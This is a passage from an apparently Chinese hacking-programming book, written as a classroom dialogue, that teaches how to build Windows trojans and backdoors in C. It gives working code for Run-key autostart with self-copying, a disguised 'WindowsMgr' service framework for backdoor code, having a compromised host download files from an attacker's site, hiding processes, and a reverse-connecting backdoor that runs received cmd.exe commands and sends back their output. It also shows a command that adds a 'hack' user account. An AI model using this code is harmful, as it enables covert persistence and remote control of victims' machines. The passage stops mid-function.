“接下来我们可以通过 RegSetValueEx() 来设定键值。RegSetValueEx() 函数原型如下：”

```c
LONG RegSetValueEx(
    HKEY hKey,              // 关键字的句柄
    LPCTSTR lpValueName,    // 值名
    DWORD Reserved,         // 保留项
    DWORD dwType,           // 值类型
    const BYTE* lpData,     // 值数据
    DWORD cbData            // 值数据大小
);
```

“下面的代码将在 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` 下创建一个 hack 键值。”

```c
char regname[]="Software\\Microsoft\\Windows\\CurrentVersion\\Run";
HKEY hkResult;
int ret=RegOpenKey(HKEY_LOCAL_MACHINE,regname,&hkResult);

ret=RegSetValueEx(hkResult,"hacker"/* 注册表键名 */,0,REG_EXPAND_SZ,(unsigned char *)"%systemroot%\\hacker.exe",25);
// 如果%systemroot%下有hacker.exe这个文件，那么系统启动时就自动运行
if(ret==0){
    printf("success to write run key\n");
    RegCloseKey(hkResult);
}
else {
    printf("failed to open regedit.%d\n",ret);
    return 0;
}
```

“当然，如果想自己的程序能在系统启动时自动运行，还要把程序自身复制到上面注册表中的 `%systemroot%` 文件夹里，并且程序名要为 hacker.exe。这就涉及到程序自复制问题。下面给大家演示如何把程序自身复制到系统根目录：”

```c
char modlepath[256];
char syspath[256];

GetModuleFileName(0, modlepath, 256);    // 取得程序名字
GetSystemDirectory(syspath, 256);        // 取得系统根目录
ret=CopyFile(modlepath, strcat(syspath, "\\hacker.exe"), 1);
if(ret)
{
    printf("%s has been copyed to sys.dir %s\n", modlepath, syspath);
}
else printf("%s is exisis", modlepath);
```

“其中，CopyFile() 函数就是文件复制的函数，第一个参数为源文件路径；第二个参数为目标文件路径；第三个参数为 1，表示如果目标文件存在，就不覆盖目标文件，为 0 就强制覆盖目标文件。”

“哦！明白。”马蜂窝答道。

“好了，通过以上代码就可实现程序的自启动。当然，你还需添加自己的程序代码才能实现应有的功能。”

### 2.3 如何编写一个 NT 服务

“利用注册表启动的方式好像过时了。现在，很多木马或后门都是以系统服务的形式启动的，大哥能否讲解一下如何利用服务启动？”蓝狐问道。

“OK！下面我就介绍一下如何编写一个 NT 服务来让程序进行自启动。不过编写代码之前要给大家讲解一些关于服务的有关知识。”

#### 2.3.1 关于 NT 服务

> **小知识：NT 服务**  
> 所谓 NT 服务，是一类特殊的应用程序，实际上就是一个可以在系统启动时自动在一定身份下启动的、伴随系统长时间存在的进程。如 FTP Server、IIS、脱机打印等都是采用 NT 服务的形式提供的，这实际上类似于 Unix 的 root daemon 进程。NT 服务归纳起来，有以下几个特征：

- 1. 可以自启动，不需要交互启动。这对于服务器来说是一个重要的特征。当然，你可以决定服务是否自启动，甚至可以禁止某个服务。
- 2. NT 服务没有用户界面，基本上类似于一个 DOS 程序。因为 NT 服务必须长时间运行，所以不像普通 Win32 进程一样有自己的界面（如果那样，会消耗较多的系统资源）。但 NT 服务可以同用户界面交互，这是一类特殊的服务进程。可以通过 NT 的任务管理器来看到服务进程。
- 3. NT 服务通过 SCM（Services Control Manager）接口来管理，安装、启动、停止、撤除等都需要 SCM 的接口功能来进行。控制面板的服务控制器就是利用 SCM 接口来管理系统中的所有服务。
- 4. 这些进程都以一定的身份运行，以方便进行服务器资源的存取。一般情况下使用域中的 LocalSystem 账号运行，此账号对本机上的大多数资源（除非特别禁止）有完全的存取权限，这样可保证服务程序的“强大”。但是，也有些服务采用特别的账号运行，你也可特别设定一个服务的账号。
- 5. 由系统自动以线程方式运行，一般情况下不过多占用系统资源，这同普通的进程有所区别。如果不采用线程方式，一般进程往往要消耗整个 CPU 资源。一般地，需要时时存在，又不能过多消耗资源的任务，以服务来实现最合适。

> “一个 NT 服务由三部分组成，第一部分是 Service Control Manager（SCM）。每个 Windows NT/2000 系统都有一个 SCM，SCM 存在于 Service.exe 中，在 Windows 启动时会自动运行，伴随着操作系统的启动和关闭而产生和终止。这个进程以系统特权运行，并且提供一个统一的、安全的手段去控制服务。它其实是一个 RPC Server，因此，我们可以远程安装和管理服务，不过这不在本文章讨论的范围内。SCM 是一个储存着已经安装的服务和驱动程序的信息的数据库，通过 SCM 可以统一地、安全地管理这些信息。因此，一个服务程序的安装过程就是将自身的信息写入这个数据库。”

> “第二部分就是服务本身。一个服务拥有能从 SCM 收到信号和命令所必需的特殊代码，并且能够在处理后将它的状态回传给 SCM。”

> “第三部分（即最后一部分）是一个 Service Control Dispatcher（SCP）。它是一个拥有用户界面，允许用户开始、停止、暂停、继续，并且控制已经安装在计算机上作为服务运行的 Win32 应用程序。SCP 的作用是与 SCM 通讯，Windows 2000 管理工具中的‘服务’就是一个典型的 SCP。”

#### 2.3.2 如何编写服务

> “因为服务程序大多都以控制台程序出现，所以服务程序的入口点函数一般都是 main()。一个服务拥有很重要的三个函数，第一个是入口点函数，其实用 WinMain() 作为入口点函数也不是不可以，虽说服务不应该有用户界面，但是其实也存在着很少的几个例外。”

> “第二个很重要的函数就是 ServiceMain，许多源代码里对自己的服务的进入点函数都固定命名为 ServiceMain，其实并没有明文规定一定要那样命名，任何函数只要符合下列的形式都可作为服务的进入点函数。”

```c
VOID WINAPI ServiceMain(
    DWORD dwArgc,       // 参数个数
    LPTSTR *lpszArgv    // 参数串
);
```

“这个函数由操作系统调用，并执行能完成服务的代码。一个专用的线程执行每一个服务的 ServiceMain 函数，注意：是服务而不是服务程序，这是因为每个服务都拥有与自己唯一对应的 ServiceMain 函数，关于这一点可以用‘管理工具’里的‘服务’去查看 Win2000 里自带的服务，会发现其实很多服务都由 service.exe 单独提供。当主线程调用 Win32 函数 StartServiceCtrlDispatcher 时，SCM 为这个进程中的每个服务产生一个线程。这些线程中的每一个都与它相应服务的 ServiceMain 函数一起执行，这就是服务总是多线程的原因（仅有一个服务的可执行文件将有一个主线程），其它的线程执行服务本身。”

“第三个重要的函数是 CtrlHandler，它必须拥有下面的原型：”

```c
VOID WINAPI CtrlHandler(
    DWORD fdwControl // 控制命令
)
```

“像 ServiceMain 一样，CtrlHandler 也是一个回调函数，用户必须为它的服务程序中的每个服务写一个单独的 CtrlHandler 函数。因此，如果有一个程序含有两个服务，那么它至少要拥有 5 个不同的函数：作为入口点的 main() 或 WinMain()，用于第一个服务的 ServiceMain 函数和 CtrlHandler 函数，以及用于第二个服务的 ServiceMain 函数和 CtrlHandler 函数。”

“SCM 调用一个服务的 CtrlHandler 函数，去改变这个服务的状态。例如，当某个管理员用管理工具里的‘服务’尝试停止你的服务时，你的服务的 CtrlHandler 函数将收到一个 SERVICE_CONTROL_STOP 通知。CtrlHandler 函数负责执行停止服务所需的一切代码。由于是进程的主线程执行所有的 CtrlHandler 函数，因而必须尽量优化你的 CtrlHandler 函数的代码，使其运行起来足够快，以便相同进程中其它服务的 CtrlHandler 函数能在适当的时间内收到属于它们的通知。而且基于上述原因，你的 CtrlHandler 函数必须要能将想要传达的状态送到服务线程，这个传递过程没有固定的方法，完全取决于你的服务的用途。”

“下面给出一个服务程序的框架，大家只要在这个框架后加上自己的后门代码，你们的后门就可实现服务方式的启动了！”

“太好了！我们就是喜欢框架，只要把自己的代码加进去，不用做其它工作就可实现服务式的启动了！”，马蜂窝欢呼道。

“贴代码出来吧！”冰眼催促道。

“下面是代码程序，比较长。”

```c
#include <stdio.h>
#include <windows.h>
SERVICE_STATUS m_ServiceStatus;
SERVICE_STATUS_HANDLE m_ServiceStatusHandle;
BOOL bRunning=true;
void WINAPI ServiceMain(DWORD argc, LPTSTR *argv);    // 服务主函数
void WINAPI ServiceCtrlHandler(DWORD Opcode);         // 服务控制函数
void WINAPI CmdStart(void);                           // 要启动的程序函数
BOOL InstallService();                                // 安装服务的函数
BOOL DeleteService();                                 // 删除服务的函数

int main(int argc, char* argv[])
```

```c
printf("\twindows based service demo\n");
printf("\tgxisone@hotmail.com\n");
if (argc != 3)
{
    printf("usage: %s --install|remove", argv[0]);
    return 0;
}

if (strcmp(argv[1], "--install") == 0)      // 安装
{
    if (InstallService())
        printf("\n\nService Installed Successfully\n");
    else
        printf("\n\nError Installing Service\n");
}
else if (strcmp(argv[1], "--remove") == 0)  // 删除
{
    if (DeleteService())
        printf("\n\nService remove successfully\n");
    else
        printf("\n\nError removing Service\n");
}
else
{
    printf("\nusage: %s --install|remove[]\n", argv[0]);
    return 0;
}
```

在进入点函数里面要完成 ServiceMain 的初始化，准确地说，是初始化一个 SERVICE_TABLE_ENTRY 结构数组，这个结构记录了此服务程序里所包含的所有服务的名称，以及服务的进入点函数。

```c
SERVICE_TABLE_ENTRY DispatchTable[] = {{"WindowsMgr", ServiceMain}, {NULL, NULL}};
// 最后的 NULL 指明数组的结束
StartServiceCtrlDispatcher(DispatchTable);
return 0;
}

void WINAPI ServiceMain(DWORD argc, LPTSTR *argv)
{
    m_ServiceStatus.dwServiceType = SERVICE_WIN32;
    m_ServiceStatus.dwCurrentState = SERVICE_START_PENDING;
    m_ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP;
    m_ServiceStatus.dwWin32ExitCode = 0;
    m_ServiceStatus.dwServiceSpecificExitCode = 0;
    m_ServiceStatus.dwCheckPoint = 0;
    m_ServiceStatus.dwWaitHint = 0;
    m_ServiceStatusHandle = RegisterServiceCtrlHandler("WindowsMgr", ServiceCtrlHandler);
    if (m_ServiceStatusHandle == (SERVICE_STATUS_HANDLE)0) return;
    m_ServiceStatus.dwCurrentState = SERVICE_RUNNING;  // 设置服务状态
    m_ServiceStatus.dwCheckPoint = 0;
    m_ServiceStatus.dwWaitHint = 0;
    // SERVICE_STATUS 结构含有七个成员，它们反映服务的现行状态。
    // 所有这些成员必须在这个结构被传递到 SetServiceStatus 之前正确地设置
    SetServiceStatus(m_ServiceStatusHandle, &m_ServiceStatus);
    bRuning = true;
    // *
    CmdStart();   // 启动我们的服务程序
    // *
    return;
}

void WINAPI ServiceCtrlHandler(DWORD Opcode)   // 服务控制函数
{
    switch (Opcode)
    {
    case SERVICE_CONTROL_PAUSE:
        m_ServiceStatus.dwCurrentState = SERVICE_PAUSED;
        break;
    case SERVICE_CONTROL_CONTINUE:
        m_ServiceStatus.dwCurrentState = SERVICE_RUNNING;
        break;
    case SERVICE_CONTROL_STOP:
        m_ServiceStatus.dwWin32ExitCode = 0;
        m_ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        m_ServiceStatus.dwCheckPoint = 0;
        m_ServiceStatus.dwWaitHint = 0;
        SetServiceStatus(m_ServiceStatusHandle, &m_ServiceStatus);
        bRuning = false;
        break;
    case SERVICE_CONTROL_INTERROGATE:
        break;
    }
    return;
}

BOOL InstallService()    // 安装服务函数
{
    char strDir[1024];
    SC_HANDLE schSCManager, schService;

    GetCurrentDirectory(1024, strDir);
    GetModuleFileName(NULL, strDir, sizeof(strDir));

    char chSysPath[1024];
    GetSystemDirectory(chSysPath, sizeof(chSysPath));

    strcat(chSysPath, "\\WindowsMgr.exe");
    if (!CopyFile(strDir, chSysPath, FALSE)) printf("Copy file OK\n");
    // 把我们的服务程序复制到系统根目录

    strcpy(strDir, chSysPath);
    schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (schSCManager == NULL)
    {
        printf("open scmanager failed, maybe you do not have the privilege to do this\n");
        return false;
    }

    LPCTSTR lpszBinaryPathName = strDir;

    schService = CreateService(schSCManager, "WindowsMgr", "Windows Manager Control",
    // 将服务的信息添加到 SCM 的数据库
        SERVICE_ALL_ACCESS,
        SERVICE_WIN32_OWN_PROCESS,    // 服务类型
        SERVICE_AUTO_START,           // 启动类型
        SERVICE_ERROR_NORMAL,
        lpszBinaryPathName,           // 服务名
        NULL, NULL, NULL, NULL, NULL);
    if (schService == NULL)
    {
        printf("faint, we failed just because we invoke createservice failed\n");
        return false;
    }
    CloseServiceHandle(schService);
    return true;
}

BOOL DeleteService()
{
    SC_HANDLE schSCManager;
    SC_HANDLE hService;
    schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);

    char chSysPath[1024];
    GetSystemDirectory(chSysPath, sizeof(chSysPath));
    strcat(chSysPath, "\\WindowsMgr.exe");

    if (schSCManager == NULL)
    {
        printf("faint, open scmanager failed\n");
        return false;
    }

    hService = OpenService(schSCManager, "WindowsMgr", SERVICE_ALL_ACCESS);
    if (hService == NULL)
    {
        printf("faint, open services failed\n");
        return false;
    }

    if (DeleteFile(chSysPath) == 0)
    {
        printf("Del file Failure!\n");
        return false;
    }
    else
        printf("Delete file OK!\n");

    if (DeleteService(hService) == 0)
        return false;

    if (CloseServiceHandle(hService) == 0)
        return false;
    else
        return true;
}

void WINAPI CmdStart(void)
{
    //_______________________________
    // 只要把你要做成服务启动的程序代码添加到这里，那么你的代码就可作为 NT 服务启动了
    //_______________________________
}
```

“代码里重要的地方我都做了注释，把你们的后门／木马代码添加进最后一个函数里就 OK 了！”

“好的！老师，回去后我自己试试。”蓝狐答道。

“大家下去都要实践，只有这样才能发现问题，解决问题。好了，今天的课就到这里，下课！”

“老师，再见！”

“全体起立！”我是良民调皮地说道。

这帮孩子真可爱（其实我自己也是孩子一个 :))）！

### 2.4 进程的创建

“今天我们讲讲进程的创建。我们编写后门或木马时，通常都会实现创建进程这一重要功能。”

## 第二章 黑客编程精粹

“什么叫做进程啊？谷大哥。”蓝狐问道。  
~|+#$%……  
“你可以把进程看做一个程序的一次运行，当某程序启动时，Windows 就创建一个进程。进程是 EXE 文件的实例化，一个 EXE 程序未被启动前，它只是磁盘上的一个文件而已。当 EXE 程序被系统加载后，即 EXE 程序被装入内存并运行时，这就是一个进程了。”

“如何让系统执行我们指定的程序呢？”冰眼问道。

“我们可以利用一些函数来实现，例如 WinExec()、ShellExecute() 或 CreateProcess()。下面就给大家逐一介绍这几种方法。”

#### 1. 使用 WinExec 函数

- （1）函数原型

```c
UINT WinExec(LPCSTR lpCmdLine, UINT uCmdShow);
```

- （2）参数
- lpCmdLine：指向一个空结尾的字符串，串中包含将要执行的应用程序的命令行（文件名加上可选参数）。
- uCmdShow：定义 Windows 应用程序的窗口如何显示，并为 CreateProcess 函数提供 STARTUPINFO 参数的 wShowWindow 成员的值。

- （3）返回值
- 若函数调用成功，则返回值大于 31。若函数调用失败，则返回值为下列之一：
  1. 0：系统内存或资源已耗尽。
  2. ERROR_BAD_FORMAT：EXE 文件无效（非 Win32.EXE 或 .EXE 映像错误）。
  3. ERROR_FILE_NOT_FOUND：指定的文件未找到。
  4. ERROR_PATH_NOT_FOUND：指定的路径未找到。

“由于这个函数过于简单了（相对于另外两个函数而言），因此现在很少使用 WinExec()。但在许多时候，简单的 WinExec 函数仍是运行新程序的最好方式。简单地传送作为第一个参数的命令行，还需要决定如何显示程序（该程序也许会忽视它）的第二个参数。通常，将其设置为 SW_SHOW，也可尝试 SW_MINIMIZED 或 SW_MAXIMIZED。WinExec 不允许用 CreateProcess 获得的所有选项，而它的确简单。”

#### 2. 使用 ShellExecute 函数

- （1）函数原型

```c
HINSTANCE ShellExecute(HWND hwnd, LPCTSTR lpOperation, LPCTSTR lpFile,
LPCTSTR lpParameters, LPCTSTR lpDirectory, INT nShowCmd);
```

- （2）参数
- hwnd：指向父窗口的窗口句柄。此窗口接收应用程序产生的任何信息框。
- lpOperation：一个空结尾的字符串地址，此字符串指定要执行的操作。下面的操作字符串是有效的。如图 2-2。

| 操作字符串 | 说明 |
|---|---|
| `open` | 此函数打开由参数 lpFile 指定的文件，此文件可以是一个可执行文件或文档文件，也可是一个文件夹。 |
| `print` | 此函数打印由参数 lpFile 指定的文件，此文件应是一个文档文件，假如该文件是一个可执行文件，则打开此文件。 |
| `explore` | 此函数搜索由参数 lpFile 指定的文件夹。此文件应是一个文档文件。 |

图 2-2

> “此参数可以为空。这种情况下，函数用于打开由参数 lpFile 指定的文件。”

- lpFile：一个空结尾的字符串地址，此字符串指定要打开或打印的文件，或者要打开或搜索的文件夹。
- lpParameters：假如参数 lpFile 指定一个可执行文件，lpParameters 则是一个空结尾的字符串地址，此字符串指定要传递给应用程序的参数。假如 lpFile 指定一个文档文件，lpParameters 应为空。
- lpDirectory：一个空结尾的字符串地址，此字符串指定默认目录。
- nShowCmd：假如 lpFile 指定一个可执行文件，nShowCmd 表明应用程序打开时如何显示。假如 lpFile 指定一个文档文件，nShowCmd 应为空。

- （3）返回值

“若函数调用成功，则返回值大于 32，否则为一个小于等于 32 的错误值。”

**说明：可以用此函数打开或搜索一个外壳文件夹。**

“打开文件夹可用下面任何一种形式：”

```c
ShellExecute(handle, NULL, path_to_folder, NULL, NULL, SW_SHOWNORMAL);
或 ShellExecute(handle, "open", path_to_folder, NULL, NULL, SW_SHOWNORMAL);
```

“搜索文件夹可用如下形式：”

```c
ShellExecute(handle, "explore", path_to_folder, NULL, NULL, SW_SHOWNORMAL);
```

“打开一个 http 网址可利用下面的形式：”

```c
ShellExecute(NULL, "open", "http://www.nohack.cn", NULL, NULL, SW_SHOWNORMAL);
```

> “ShellExecute 函数向命令解释程序提出打开、浏览、打印文档或文件夹的请求，虽然可以用 ShellExecute 运行程序，但通常只发送文档名，而命令解释程序则决定要运行哪个程序。另外，在打开目录文件夹时，ShellExecute 命令非常有用。”

#### 3. 使用 CreateProcess() 函数

“其实，WinExec() 和 ShellExecute() 函数也是间接使用 CreateProcess() 函数来创建进程的。利用 CreateProcess() 函数来创建进程，会有更大的灵活性。”

- （1）函数原型

“CreateProcess() 函数的原型如下：”

```c
BOOL CreateProcess(
  LPCTSTR lpApplicationName,
  LPTSTR lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCTSTR lpCurrentDirectory,
  LPSTARTUPINFO lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

“CreateProcess() 函数通过创建一个新的进程和新进程的主线程来运行一个新的程序。当调用 CreateProcess() 函数成功时，返回非 0 值，否则返回 0。”

- （2）参数

“在这里，我们来看几个重要参数，lpStartupInfo 结构用于指定进程如何显示窗口，lpProcessInformation 结构用于保存系统返回的进程信息。例如下面的例子：”

```c
STARTUPINFO si;         // 进程启动时需要初始化的结构
PROCESS_INFORMATION pi; // 进程启动后的有关信息
si.cb = sizeof(STARTUPINFO);
GetStartupInfo(&si);
si.wShowWindow = SW_SHOW; // 这里设置窗口为显示，SW_HIDE 为隐藏窗口
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
CreateProcess("C:\\Program Files\\Internet Explorer\\EXPLORE.EXE",
NULL, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi);
```

“上面的代码是创建一个 IE 进程。进程创建后，就可用 pi.hProcess 来取得进程句柄，pi.hThread 为线程句柄，pi.dwProcessId 为进程的 PID，pi.dwThreadId 为进程的主线程 ID。有了进程的句柄或 PID，就可更好地控制进程，有关的知识在以后的文章里将有详细介绍。”

“好的！”我是良民答道。

“关于进程的创建就介绍到此了，希望对大家有所帮助。”

### 2.5 如何让程序下载东西

“很多时候，我们进入了一台肉鸡，往往需要把一些文件上传到肉鸡，以便更好地控制或利用。那么能否让肉鸡自己去某个网站下载东西呢？”我是良民问道。

“当然能啦！让肉鸡自己去某个 URL 下载东西有个好处是：不会留下自己的 IP 地址。如果对方安装了入侵检测软件，我们直接上传程序到肉鸡时就会被检测到。让肉鸡自己去网站下载是最好的办法（你们可自己申请一个免费空间，把文件传上去）。下面就简单举个例子，用短短几行代码就能实现 http 下载功能。”

**注意：需要包含下面的头文件和库文件**

```c
#include "urlmon.h"
#pragma link "w32inet.lib"
```

“我们要利用到 URLDownloadToFile() 这个 API 函数。函数原型如下：”

```c
HRESULT URLDownloadToFile(
    LPUNKNOWN pCaller,
    LPCTSTR szURL,      // 指向存储 URL 地址的字符串
    LPCTSTR szFileName, // 指向存储保存地址的字符串
    DWORD dwReserved,   // 必须设置为 0，MSDN 上说的
    ...
);
```

```c
LPBINDSTATUSCALLBACK lpfnCB    // 这个也为 0
)
```

“示例代码如下：”

```c
HRESULT hRet=URLDownloadToFile(0,"http://www.1111.com/abc.exe",
    "d:\\abc.exe",0,0);
if(hRet==S_OK)
{
    printf("Download OK!\n");
}
else
{
    printf("Download Failed!\n");
}
```

“就这么几行代码就行了？”冰眼惊奇地问道。

“对啊！编程就是这样！有时简单的事情需要复杂的代码来完成，而有些时候呢？复杂的事情用一个函数就可以搞定！”

“希望上面的代码大家也要积累下来！”

“已经保存了，谷大哥。”蓝狐的嘴巴就是甜。

### 2.6 在 Win9x 下如何隐藏进程

“如何使程序能在 Win9x 系统下实现进程隐藏呢？”多多喵问道。

“这很简单，我们只需把程序注册为一个服务就行了。当一个程序以服务形式运行时，按下 Ctrl + Alt + Delete 是看不到进程名字的。但这种办法只适合于 Win9x 下的进程隐藏。”

“我们来看看下面这个函数，只要在程序中调用这个函数，那么这个程序就会被注册为系统服务，从而也就实现了进程隐藏。函数代码如下：”

```c
// Win9x 下隐藏进程
typedef DWORD (WINAPI pREGISTERSERVICEPROCESS) (DWORD,DWORD);

// 定义一个函数
void HideProc(void)
{
    HINSTANCE hKernel=LoadLibrary("Kernel32.dll");
    // 装载 kernel32.dll
    if (hKernel != NULL)
    {
        pREGISTERSERVICEPROCESS *pRegisterServiceProcess=(pREGISTERSERVICEPROCESS *)
            GetProcAddress(hKernel,"RegisterServiceProcess");
        (*pRegisterServiceProcess)(GetCurrentProcessId(),1);
    }
    FreeLibrary(hKernel);
    return;
}
```

### 2.7 如何实现反向连接后门

“现在的木马或者后门都有个较麻烦的问题，即如果我们在 Internet 上，而对方在局域网内部，就不能直接连上我们的木马程序！”我是良民说道。

“所以，在很多情况下，我们的后门或木马程序需要服务器端来主动连接客户端，例如当服务端处于局域网内时，客户端就不能访问服务端，因为服务端是在内网，我们能够访问的只是网关的 IP 地址。但网关内部的服务端却可以连接到外面的机器，这时，如果需要建立通信通道的话，就只能由服务端（内网）发出连接。其实，这跟一般的后门或木马程序没什么大的区别，区别只是由服务端利用 connect() 来连接客户端。”

“对啊！所以灰鸽子这种反弹端口的后门就流行了起来！”蓝狐说道。

“那么我们该如何来实现这个功能呢？”多多喵问道。

“OK！我就以一个反弹端口的后门程序来说明如何实现后门的反向连接吧！”

“首先，服务端应得到客户端的 IP 地址，这样可利用前面介绍过的 URLDownloadToFile() 函数来实现（下载包含客户端 IP 地址的文件，取得客户 IP）；更高级的办法可利用 Sniff 来实现（关于 Sniff 原理和实现以后的章节会为大家介绍，利用 Sniff 可在装有防火墙的机器进行嗅探）。接着，当服务端连上客户端时，就在服务端开启 CMD 进程，用于执行客户端的命令。”

#### 1. 与客户端连接

```c
WSADATA WSAData;
SOCKET sock;
SOCKADDR_IN addr_in;
char buf1[1024];      // 作为 Socket 接收数据的缓冲区
memset(buf1,0,1024);  // 清空缓冲区
if (WSAStartup(MAKEWORD(2,0),&WSAData)!=0)
{
    printf("WSAStartup error.Error:%d\n",WSAGetLastError());
    return;
}
addr_in.sin_family=AF_INET;
addr_in.sin_port=htons(80); // 反向连接的远端主机端口
addr_in.sin_addr.S_un.S_addr=inet_addr("127.0.0.1"); // 远端IP
if ((sock=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP))==INVALID_SOCKET)
{
    printf("Socket failed.Error:%d\n",WSAGetLastError());
    return;
}
if(WSAConnect(sock,(struct sockaddr*)&addr_in,sizeof(addr_in),NULL,NULL,NULL,NULL)==SOCKET_ERROR)
// 连接客户端主机
{
    printf("Connect failed.Error:%d",WSAGetLastError());
    return;
}
```

“以上代码实现了与客户端的连接。当然，这里如何获得客户端 IP 是一个问题。许多木马是根据读取某个网页中的数据来获得客户端的 IP。大家动动脑筋，相信会想出更好的方法。”

#### 2. 绑定 cmdshell

```c
char buffer[2048] = {0};   // 管道输出的数据
for(char cmdline[270];;memset(cmdline,0,sizeof(cmdline)))
{
    SECURITY_ATTRIBUTES sa;   // 创建匿名管道，用于取得 CMD 的命令输出
    HANDLE hRead,hWrite;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;
    if (!CreatePipe(&hRead,&hWrite,&sa,0))
    {
        printf("Error On CreatePipe()!");
        return;
    }
}
```

“上面的代码是创建一个命名管道，以取得 CMD 的输出。我看过许多 Telnet 后门源码，它们都是创建两个命名管道，一个用于命令输入，另一个用于命令输出。通过笔者的实践，发现第二种方法有个不好的缺点：就是接下来用 CreateProcess() 创建 CMD 进程后，CMD 进程就一直存在。这对于后门的隐藏非常不好。根据我的试验，如果我们把 recv() 函数收到的命令数据放进一个字符串数组，然后把这个命令串作为 CreateProcess() 的第二个参数。那么，当命令执行，且管道接受了 CMD 的输出后，CMD 进程会自动退出，在进程管理器中将找不到 CMD 进程。大家可以先做个如下的试验。”

“选择‘开始→运行’，然后输入 `cmd /c net user hack hack /add`，你会看见 CMD 窗口一闪而过，但进程管理器中找不到 CMD 进程，而 ‘hack’ 用户的确已被添加到用户组中了。”

“下面的代码是为 CreateProcess() 作初始化处理：”

```c
STARTUPINFO si;
PROCESS_INFORMATION pi;
```

## 第二章 黑客编程精粹

“先定义两个结构，STARTUPINFO 结构为被创建的 CMD 进程初始化启动信息。下面的 `si.hStdOutput = hWrite` 表明 CMD 的输出将会写进管道 hWrite 中；`si.wShowWindow = SW_HIDE` 表示不显示 CMD 的启动窗口（SW_SHOW 表示显示启动窗口，没有哪个后门会用 SW_SHOW 吧）。PROCESS_INFORMATION 结构由系统来填写，主要储存进程启动后的四个信息：”

```c
HANDLE hProcess;    // 进程句柄
HANDLE hThread;     // 进程主线程句柄
DWORD  dwProcessID; // 进程ID
DWORD  dwThreadID;  // 进程的主线程ID
```

“下面对 si 中各成员变量赋一些初始值。”

```c
si.cb = sizeof(STARTUPINFO);
GetStartupInfo(&si);
si.hStdError = hWrite;
si.hStdOutput = hWrite;
si.wShowWindow = SW_HIDE;
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
GetSystemDirectory(cmdline, MAX_PATH+1);
```

“GetSystemDirectory() 函数取得系统的根目录。因为 CreateProcess() 第二个参数需要程序的全路径，所以要把系统路径先 copy 进 cmdline：”

`strcat(cmdline,"\\cmd.exe /c");`

“NT 内核的系统用 CMD 来解释命令，而 Win9x 是 Command。要根据实际情况来修改上面的那行代码。”

“哦！”冰眼发出了感叹。

“上面的 strcat() 把程序名 copy 到 cmdline 后面。一条具体的命令应该这样：

`c:\\windows\\system32\\cmd.exe /c dir d:`

“后面的 `dir d:` 为具体命令，是从 recv() 函数中取得的。”

`int len=recv(sock,buf1,1024,NULL); // 接受客户端命令，保存在 buf1 中`

“程序运行到 recv() 函数会进入阻塞状态，即程序会等待直到 recv() 接收到数据才运行下一条命令。”

```c
if(len==SOCKET_ERROR) exit(0); // 如果客户端断开连接，则自动退出程序
if(len<=1){ send(sock,"error\n",sizeof("error\n"),0); continue; }
strncat(cmdline,buf1,strlen(buf1));
// 把命令参数复制到 cmdline，这样 cmdline 就是一条完整命令了
if(!CreateProcess(NULL,cmdline,NULL,NULL,TRUE,NULL,NULL,NULL,&si,&pi))
{
    send(sock,"Error command\n",sizeof("Error command\n"),0);
    continue;
}

CloseHandle(hWrite);
// 循环读取管道中的数据并发送，直到管道中没有数据为止
for(DWORD bytesRead;;ReadFile(hRead,buffer,2048,&bytesRead,NULL),memset(buffer,0,2048))
    send(sock,buffer,strlen(buffer),0);
// 上面的 for 循环结束后，将跳回上一层循环，即接收客户端数据
}
```

“上面的端口号和 IP 地址请根据实际情况修改。另外，要先用 **nc -l -p 80**（netcat）在本地监听一个端口等待服务端连接，否则会因服务端的 connect() 连接不到客户端而产生异常，从而退出。现在大家对这类型的反弹端口程序比较了解了吧？”

“嗯，概括地说，就是服务端主动来连接客户端吧？我们只要在服务端写好它的 connect() 函数就行了？”

“嗯！不错！”看来大家都学到东西了，“就是这样！大家回去自己试一试！”

### 2.8 如何获得本机 IP 地址

“如果我们开发一个反弹端口木马，那么就要把自己的 IP 地址发送给服务端，有什么简单的方法可以获取自己的 IP 地址呢？”多多喵问道。

“嗯，如果是在 Win2000 系统下，我们可在 CMD（命令提示符）中输入 **ipconfig** 来查看本机的 IP 地址。如果想用编程来获得 IP 地址，也是比较简单的，代码如下：”

```c
void CheckIP(void)   // 定义 CheckIP() 函数，用于获取本机 IP 地址
{
    WSADATA wsaData;
    char name[255];   // 定义用于存放获得的主机名的变量
    char *ip;         // 定义 IP 地址变量
    PHOSTENT hostinfo;

    // 调用 MAKEWORD() 获得 Winsock 版本的正确值，用于加载 Winsock 库
    if (WSAStartup(MAKEWORD(2,0), &wsaData) == 0) {
        // 现在是加载 Winsock 库，如果 WSAStartup() 函数返回值为 0，说明加载成功，程序可以继续
        if (gethostname(name, sizeof(name)) == 0) {
            // 如果成功地将本地主机名存入由 name 参数指定的缓冲区中
            if ((hostinfo = gethostbyname(name)) != NULL) {
                // 这是获取主机名，如果获得主机名成功的话，将返回一个指针，指向 hostinfo
                ip = inet_ntoa(*(struct in_addr *)*hostinfo->h_addr_list);
                // 调用 inet_ntoa() 函数，将 hostinfo 结构变量中的 h_addr_list 转化为标准的 IP 地址格式
                printf("%s\n", ip);   // 输出 IP 地址
            }
        }
    }
    WSACleanup();  // 卸载 Winsock 库，并释放所有资源
}
```

“使用时别忘了添加 winsock2.h 和 ws2_32.lib 库文件哦！”

“知道了，老师！”大家几乎同时发出这条消息。

### 2.9 如何查杀进程

“如何通过代码实现查杀进程呢？”我是良民问道。

“在我们写木马或后门程序时，列出和查杀进程功能是比较重要的。列出进程我们会用到下面的 pslist 函数：”

```c
void pslist(void)
{
    HANDLE hProcessSnap = NULL;
    PROCESSENTRY32 pe32 = {0};
